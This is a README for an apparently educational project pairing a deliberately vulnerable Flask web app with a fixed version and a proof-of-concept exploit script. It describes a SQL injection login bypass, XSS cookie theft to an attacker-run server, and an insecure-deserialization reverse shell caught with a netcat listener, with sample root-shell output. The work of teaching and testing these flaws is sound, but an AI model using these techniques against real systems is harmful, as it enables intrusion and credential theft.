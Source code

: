 # Vulnerable flask based web application

Project with the goal to make one web application with two versions:

- app, web application with security issues
- appsec, web application with the security issues fixed

## Vulnerabilities present

- Plaintext Passwords
- SQLi
- Forced Browsing
- XSS
- Insecure deserialization

## Usage

### To run the web application

1. Go to the desired web application directory
2. Run the following command:
    
    ```bash
    docker-compose up --build
    ```
    
3. go to the following [url](http://localhost/) 

### To run the POC (poorsploit.py)

1. Go to the project directory
2. Run the following command
    
    ```bash
    python3 poorsploit.py
    ```
    
3. Choose the exploit we want to exploit with the POC (poorsploit.py)
    
    ```bash
    python3 poorsploit.py
     ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ _________ 
    ||P |||o |||o |||r |||s |||p |||l |||o |||i |||t |||       ||
    ||__|||__|||__|||__|||__|||__|||__|||__|||__|||__|||_______||
    |/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/_______\| (Metasploit at home™️)
    
    [?] Choose one of the options:
           1 - SQli
           2 - Insecure Deserialization
           3 - XSS
           4 - Forced Browsing
           5 - quit
    > 
    ```
    

### To run go into the database

1. Check in witch container id the mysql db is running by executing the below command
    
    ```bash
    docker ps
    ```
    
2. Run the following command to get access to the mysql db
    
    ```bash
    docker exec -it <container−id> mysql -h localhost -P 3306 -u root -proot
    ```
    

## Exploitation

### SQLi

Manually:

```bash
username: <username of user we know exists>' -- \\
password: <anything>
```

Automatically:

```bash
> python3 poorsploit.py
 ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ _________ 
||P |||o |||o |||r |||s |||p |||l |||o |||i |||t |||       ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__|||_______||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/_______\| (Metasploit at home™️)

[?] Choose one of the options:
       1 - SQli
       2 - Insecure Deserialization
       3 - XSS
       4 - Forced Browsing
       5 - quit
> 1
[!] Username is : root
[!] Password is: root
```

### Forced Browsing

1. Log in
2. Run the poorsploit.py to check if there are any interesting directories on the robots.txt file
3. Check out those directories mentioned

### XSS

1. Log in to post something
2. Run the poorsploit.py to get the payload we are going to post on the website
3. Just wait and see the poorsploit server output with the stolen cookies (it will repeat some)
4. Close the server when done with ctrl+c

### Insecure deserialization

1. Log in as an user to get a cookie
2. On our machine run a net cat listener for our reverse shell:
    
    ```bash
    nc -lnvp 9999
    ```
    
3. Run the poorsploit.py to get a cookie that enables us to run a reverse shell on the target machine
4. Change the cookie we have on the browser for the one we got from poorsploit.py and refresh the page
5. We get a root shell on our listener terminal like the following:
    
    ```bash
    > nc -lnvp 9999
    Connection from 172.20.0.4:49470
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@aca189c0881c:/app#
    ```
    

## Authors

Rodrigo Lima, nmec: 98475 <br>
Camila Fonseca, nmec: 97880 <br>
Patrícia Dias, nmec: 98546 <br>